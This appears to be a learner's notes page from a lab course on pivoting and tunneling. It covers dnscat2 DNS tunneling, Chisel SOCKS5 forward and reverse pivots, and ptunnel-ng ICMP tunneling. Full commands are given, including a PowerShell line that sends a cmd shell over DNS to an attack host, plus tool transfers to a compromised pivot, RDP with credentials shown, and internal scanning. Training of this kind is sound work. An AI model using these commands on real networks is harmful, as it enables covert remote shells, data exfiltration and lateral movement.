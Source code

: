 # DNS Tunneling with Dnscat2
- [Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. 
- Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. 
- However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.
#### Starting the dnscat2 server
```shell-session
[!bash!]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
- After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. 
- We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.
- Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.
#### Importing dnscat2.ps1
```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```
- After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
- We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

# SOCKS5 Tunneling with Chisel
- [Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH.
- `Chisel` can create a client-server tunnel connection in a firewall restricted environment.
- Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/`23` network (internal network). We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.
#### Transferring Chisel Binary to Pivot Host
```shell-session
AnuragTaparia@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
```
- Then we can start the Chisel server/listener.
#### Running the Chisel Server on the Pivot Host
```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```
- The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.
- We can start a client on our attack host and connect to the Chisel server.
#### Connecting to the Chisel Server
```shell-session
AnuragTaparia@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks
```
#### Editing & Confirming proxychains.conf
![[proxychains for chisel.png]]
- Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.
#### Pivoting to the DC
```shell-session
AnuragTaparia@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot
- In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.
- When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.
#### Starting the Chisel Server on our Attack Host
```shell-session
AnuragTaparia@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
```
- /Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`
#### Connecting the Chisel Client to our Attack Host
```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
```
- We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.
![[proxychains for reverse chisel.png]]
- If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.
```shell-session
AnuragTaparia@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

# ICMP Tunneling with SOCKS
- ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. 
- ICMP tunneling would only work when ping responses are permitted within a firewalled network. 
- When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.
- We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.
#### Building Ptunnel-ng with Autogen.sh
```shell-session
AnuragTaparia@htb[/htb]$ sudo apt install automake autoconf -y
AnuragTaparia@htb[/htb]$ cd ptunnel-ng/
AnuragTaparia@htb[/htb]$ sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
AnuragTaparia@htb[/htb]$ ./autogen.sh
```
#### Transferring Ptunnel-ng to the Pivot Host
```shell-session
AnuragTaparia@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```
- With ptunnel-ng on the target host, we can start the server-side of the ICMP tunnel using the command directly below.
#### Starting the ptunnel-ng Server on the Target Host
```shell-session
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22
```

- The IP address following `-r` should be the IP we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use. We would benefit from using this same thinking & consideration during an actual engagement.
- Back on the attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222 (`-l2222`). Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.
#### Connecting to ptunnel-ng Server from Attack Host
```shell-session
AnuragTaparia@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

- With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).
#### Tunneling an SSH connection through an ICMP Tunnel
```shell-session
AnuragTaparia@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1
```
- If configured correctly, we will be able to enter credentials and have an SSH session all through the ICMP tunnel.
#### Enabling Dynamic Port Forwarding over SSH
- We may also use this tunnel and SSH to perform dynamic port forwarding to allow us to use proxychains in various ways.
```shell-session
AnuragTaparia@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
- We could use proxychains with Nmap to scan targets on the internal network (172.16.5.x). Based on our discoveries, we can attempt to connect to the target.
#### Proxychaining through the ICMP Tunnel
```shell-session
AnuragTaparia@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```
